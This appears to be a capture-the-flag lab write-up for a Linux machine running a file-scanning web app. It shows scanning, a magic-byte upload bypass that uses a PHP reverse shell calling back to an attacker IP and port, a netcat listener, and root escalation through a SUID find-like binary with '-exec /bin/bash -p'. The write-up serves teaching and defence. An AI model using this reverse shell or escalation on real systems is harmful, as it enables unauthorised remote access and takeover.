

## Overview

| Field | Value |
|---|---|
| OS | Linux |
| Difficulty | Not explicitly stated |
| Attack Surface | `22/tcp` SSH, `80/tcp` HTTP file upload service |
| Primary Entry Vector | File upload bypass using `MZ` magic bytes and PHP reverse shell |
| Privilege Escalation Path | Abusing SUID `find`-like binary `/opt/fileS` |

## Credentials

No credentials obtained.

## Reconnaissance

### Fast Port Discovery with RustScan

The first step is to enumerate all open TCP ports to establish the reachable attack surface. RustScan is used to quickly identify candidate services before deeper fingerprinting. At this stage, we are looking for web endpoints and any management services that could provide an entry point.

```bash
rustscan -a $ip -r 1-65535 --ulimit 5000
```

```bash
✅[4:20][CPU:17][MEM:70][TUN0:192.168.45.166][/home/n0z0]
🐉 > rustscan -a $ip -r 1-65535 --ulimit 5000
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Breaking and entering... into the world of open ports.

[~] The config file is expected to be at "/home/n0z0/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 192.168.178.33:22
Open 192.168.178.33:80

```

💡 Why this works  
Fast full-range scanning quickly narrows focus to realistic entry points. With only SSH and HTTP exposed, the web application on port 80 becomes the most likely initial compromise vector.

### Service Fingerprinting with Nmap

After identifying open ports, Nmap is used to collect version and service metadata. The selected flags combine script-based checks and version detection, which helps determine likely exploitation paths. We are specifically validating whether the HTTP service is custom and potentially vulnerable to file upload abuse.

```bash
timestamp=$(date +%Y%m%d-%H%M%S)
output_file="$HOME/work/scans/${timestamp}_${ip}.xml"
grc nmap -p- -sCV -sV -T4 -A -Pn "$ip" -oX "$output_file"
echo -e "\e[32mScan result saved to: $output_file\e[0m"
```

```bash
✅[4:20][CPU:18][MEM:69][TUN0:192.168.45.166][/home/n0z0]
🐉 > timestamp=$(date +%Y%m%d-%H%M%S)
output_file="$HOME/work/scans/${timestamp}_${ip}.xml"

grc nmap -p- -sCV -sV -T4 -A -Pn "$ip" -oX "$output_file"

echo -e "\e[32mScan result saved to: $output_file\e[0m"
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-23 04:20 JST
Nmap scan report for 192.168.178.33
Host is up (0.087s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u2 (protocol 2.0)
| ssh-hostkey:
|   3072 c9:c3:da:15:28:3b:f1:f8:9a:36:df:4d:36:6b:a7:44 (RSA)
|   256 26:03:2b:f6:da:90:1d:1b:ec:8d:8f:8d:1e:7e:3d:6b (ECDSA)
|_  256 fb:43:b2:b0:19:2f:d3:f6:bc:aa:60:67:ab:c1:af:37 (ED25519)
80/tcp open  http    Apache httpd 2.4.56 ((Debian))
|_http-title: MZEE-AV - Check your files
|_http-server-header: Apache/2.4.56 (Debian)
Device type: general purpose|router
Running: Linux 5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 5.0 - 5.14, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 256/tcp)
HOP RTT      ADDRESS
1   90.98 ms 192.168.45.1
2   90.97 ms 192.168.45.254
3   91.00 ms 192.168.251.1
4   91.09 ms 192.168.178.33

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 47.09 seconds
Scan result saved to: /home/n0z0/work/scans/20260223-042024_192.168.178.33.xml

```

💡 Why this works  
Service metadata gives context for attack strategy and narrows tool choices. Here the target is a custom upload-oriented web app, which strongly suggests input validation and file handling weaknesses as prime candidates.

## Initial Foothold

### Analyze Upload Workflow and Magic-Byte Validation

The web interface indicates PE-file scanning functionality, so validation logic becomes the key target. The screenshot confirms attacker-controlled file upload is available, which is often exploitable when content validation is weak.


*Caption: The target web application exposes a public file upload form and reports scan results.*

The vulnerable logic checked only the first two bytes for `4D5A` (`MZ`) and did not validate file extension, MIME type, or full file format.

```php
$magic = fread($F, 2);          // 先頭2バイトだけ読む
$magicbytes = bin2hex($magic);  // 16進数に変換
if (strpos($magicbytes, '4D5A') === false)  // MZ かチェック
    exit();  // MZじゃなければ拒否
```

💡 Why this works  
A two-byte signature check is insufficient for secure upload validation. Attackers can prepend the expected bytes while embedding executable server-side code later in the file, bypassing naive filters.

### Build an `MZ`-Prefixed PHP Reverse Shell

The payload prepends `\x4D\x5A` to satisfy the magic-byte check, then appends PHP reverse shell code. This is run locally before upload, and the result is a file that passes validation while still executing as PHP when requested.

```bash
printf '\x4D\x5A' > rev.php
cat >> rev.php << 'EOF'
<?php
set_time_limit(0);
$ip = '192.168.45.166';
$port = 4444;
$sock = fsockopen($ip, $port);
$descriptorspec = array(0 => $sock, 1 => $sock, 2 => $sock);
$process = proc_open('/bin/sh', $descriptorspec, $pipes);
proc_close($process);
?>
EOF
```


*Caption: The crafted `rev.php` upload is accepted by the server after the `MZ` bypass.*


*Caption: Accessing the uploaded file path triggers PHP execution of the payload.*

💡 Why this works  
PHP ignores arbitrary bytes before the `<?php` opening tag, so prepended `MZ` does not break execution. The defense validated only file header bytes, not server-side execution risk.

### Catch the Reverse Shell and Read `local.txt`

A listener is started to catch the outbound callback from the uploaded payload. After connection, a pseudo-TTY is spawned for better shell stability and command handling. The expected output is a shell as `www-data`.

```bash
nc -lvnp 4444
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```bash
❌[11:22][CPU:3][MEM:67][TUN0:192.168.45.166][/home/n0z0]
🐉 > nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.45.166] from (UNKNOWN) [192.168.178.33] 35914

python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@mzeeav:/var/www/html/upload$ ^Z
zsh: suspended  nc -lvnp 4444

```

With shell access confirmed, the next task is proof-of-compromise at user level by retrieving `local.txt`. `find` is used to discover the exact file location, then `cat` is used to read it.

```bash
find / -iname local.txt 2>/dev/null
cat /home/avuser/local.txt
```

```bash
www-data@mzeeav:/var/www/html/upload$ find / -iname local.txt 2>/dev/null
/home/avuser/local.txt
www-data@mzeeav:/var/www/html/upload$ cat /home/avuser/local.txt
6eb7d0e197ab9ac2ef205bd68cef6864

```

💡 Why this works  
Once uploaded code executes in web context, outbound reverse shells provide interactive command execution without requiring inbound firewall openings. Reading `local.txt` confirms attacker-controlled execution on the target host.

## Privilege Escalation

### Identify High-Risk SUID Binary

Local enumeration flagged an uncommon SUID binary at `/opt/fileS`. Uncommon privileged binaries are high priority because they often wrap standard tools unsafely.

```bash
[!] fst020 Uncommon setuid binaries........................................ yes!
---
/opt/fileS

```

### Confirm `fileS` Behavior and Privileged Bits

The next step is to verify what `fileS` actually does before exploitation. Its help text matched GNU `find` syntax and behavior, and file permissions confirmed SUID execution context. We are checking for command-execution features that can be abused under elevated effective UID.

```bash
./fileS --help
```

```bash
www-data@mzeeav:/opt$ ./fileS --help
Usage: ./fileS [-H] [-L] [-P] [-Olevel] [-D debugopts] [path...] [expression]

default path is the current directory; default expression is -print
expression may consist of: operators, options, tests, and actions:
operators (decreasing precedence; -and is implicit where no others are given):
      ( EXPR )   ! EXPR   -not EXPR   EXPR1 -a EXPR2   EXPR1 -and EXPR2
      EXPR1 -o EXPR2   EXPR1 -or EXPR2   EXPR1 , EXPR2
positional options (always true): -daystart -follow -regextype

normal options (always true, specified before other expressions):
      -depth --help -maxdepth LEVELS -mindepth LEVELS -mount -noleaf
      --version -xdev -ignore_readdir_race -noignore_readdir_race
tests (N can be +N or -N or N): -amin N -anewer FILE -atime N -cmin N
      -cnewer FILE -ctime N -empty -false -fstype TYPE -gid N -group NAME
      -ilname PATTERN -iname PATTERN -inum N -iwholename PATTERN -iregex PATTERN
      -links N -lname PATTERN -mmin N -mtime N -name PATTERN -newer FILE
      -nouser -nogroup -path PATTERN -perm [-/]MODE -regex PATTERN
      -readable -writable -executable
      -wholename PATTERN -size N[bcwkMG] -true -type [bcdpflsD] -uid N
      -used N -user NAME -xtype [bcdpfls]      -context CONTEXT

actions: -delete -print0 -printf FORMAT -fprintf FILE FORMAT -print
      -fprint0 FILE -fprint FILE -ls -fls FILE -prune -quit
      -exec COMMAND ; -exec COMMAND {} + -ok COMMAND ;
      -execdir COMMAND ; -execdir COMMAND {} + -okdir COMMAND ;

Valid arguments for -D:
exec, opt, rates, search, stat, time, tree, all, help
Use '-D help' for a description of the options, or see find(1)

Please see also the documentation at http://www.gnu.org/software/findutils/.
You can report (and track progress on fixing) bugs in the "./fileS"
program via the GNU findutils bug-reporting page at
https://savannah.gnu.org/bugs/?group=findutils or, if
you have no web access, by sending email to <bug-findutils@gnu.org>.
www-data@mzeeav:/opt$

```

```bash
ls -la
```

```bash
www-data@mzeeav:/opt$ ls -la
total 312
drwxr-xr-x  2 root root   4096 Nov 14  2023 .
drwxr-xr-x 18 root root   4096 Nov 13  2023 ..
---s--s--x  1 root root 311008 Nov 14  2023 fileS

```

### Use GTFOBins `find` Technique to Reach Root

Because `fileS` behaves like `find` and carries SUID bits, the GTFOBins `-exec` technique can spawn a privileged shell. `/bin/bash -p` is used to preserve elevated privileges. The final validation is reading `/root/proof.txt`.

```bash
./fileS . -exec /bin/bash -p \; -quit
cat /root/proof.txt
```

```bash
www-data@mzeeav:/opt$ ./fileS . -exec /bin/bash -p \; -quit
bash-5.1#

```

```bash
bash-5.1# cat /root/proof.txt
31c145840f70f2874b049253e763e9ce

```

💡 Why this works  
The underlying mechanism is SUID privilege inheritance. `find`-style `-exec` runs a command under the binary's effective UID (root here), and `bash -p` prevents dropping those privileges, yielding a root shell.

## Lessons Learned / Key Takeaways

- File-upload defenses must validate full file type, extension handling, and execution path isolation.
- Magic-byte checks alone are bypassable and should never be treated as primary security control.
- Uploaded files should not be directly executable from web-accessible directories.
- Uncommon SUID binaries should be audited immediately; wrappers around standard tools are especially risky.



## References

- RustScan: https://github.com/RustScan/RustScan
- Nmap: https://nmap.org/
- HackTricks Linux Privilege Escalation: https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html
- GTFOBins (`find`): https://gtfobins.org/gtfobins/find/
- GNU findutils documentation: https://www.gnu.org/software/findutils/
